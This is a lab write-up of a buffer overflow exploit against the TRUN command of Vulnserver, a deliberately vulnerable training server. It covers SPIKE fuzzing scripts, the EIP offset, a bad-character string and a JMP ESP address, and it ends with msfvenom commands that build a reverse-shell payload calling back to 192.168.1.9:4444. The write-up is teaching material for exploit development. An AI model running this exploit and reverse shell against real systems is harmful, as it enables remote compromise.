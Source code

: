 # Vulnserver TRUN writeup

Demo with vulnserver

1.  Spiking, detect a vulnerable application

    stats.spk:

    ```
    s_readline();
    s_string("STATS ");
    s_string_variable("FUZZ");
    ```

    trun.spk:

    ```
    s_readline();
    s_string("TRUN ");
    s_string_variable("FUZZ");
    ```

    - `spike-fuzzer-generic-send_tcp 192.168.122.4 9999 ./stats.spk 0 0`
      - no crashes
    - `spike-fuzzer-generic-send_tcp 192.168.122.4 9999 ./trun.spk 0 0`

      - we override the EIP, therefore, the TRUN command is vulnerable to BO

    - look at memory dump, find AAAAAA (instead of manually fuzzing again with python for example)
    - count how many AAA's (address math) => 'A' \* 2983

2.  Fuzzing

    Very simmilar to spiking. Trying to find out rough estimate of when we overwrite the EIP.

3.  Finding the offset

    - `msf-pattern_create -l 3000`
      - `/opt/metasploit/tools/exploit/pattern_create.rb -l 3000`
      - data in EIP: 386F4337
    - `msf-pattern_offset-q 386F4337`
      - `/opt/metasploit/tools/exploit/pattern_offset.rb -q 386F4337`
        > [*] Exact match at offset 2003

4.  Overwriting the EIP

    We can now send the payload:

    - `shellcode = b"A" * 2003 + b"B" * 4`

5.  Finding the bad characters

    Find the characters that are "bad" for the specific binary. For example, characters that execute some other function, so we can't use them in our shell code.

    [badchars](https://github.com/cytopia/badchars)

    ```
    \x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff
    ```

    send payload:

    - `shellcode = b"A" * 2003 + b"B" * 4 + badchars`

    Follow ESP address in memory hex dump and see what characters are missing.
    In Immunity Debugger, right click on ESP and -> follow in dump

    '\x00' is always a bad character....

6.  Finding the right module

    - [mona modules for Immunity Debugger](https://github.com/corelan/mona)

      - `!mona modules`

    I) We notice that we are overriding ESP with extra chars after EIP

    - find a jmp to the esp somwhere inside the code

      `!mona jmp -r esp`

      some options: `62501203`, `625011AF`, `625011BB`

    - now we can override eip with desired address and execute our shellcode from esp

    II)

    Finding for a dll or something similar inside of a program that has no memory protections, no DEP, no ASLR, no SafeSEH...

    - `/opt/metasploit/tools/exploit/nasm_shell.rb`

      - `JMP ESP`
        > FFE4
      - see asm commands as actual bytes

    - `!mona find -s "\xFF\xE4" -m essfunc.dll`
      > 0x625011AF

7.  Generating the shellcode

- `msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.9 LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00"`
- `msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.9 LPORT=4444 EXITFUNC=thread -b "\x00" -f python -v shellcode`
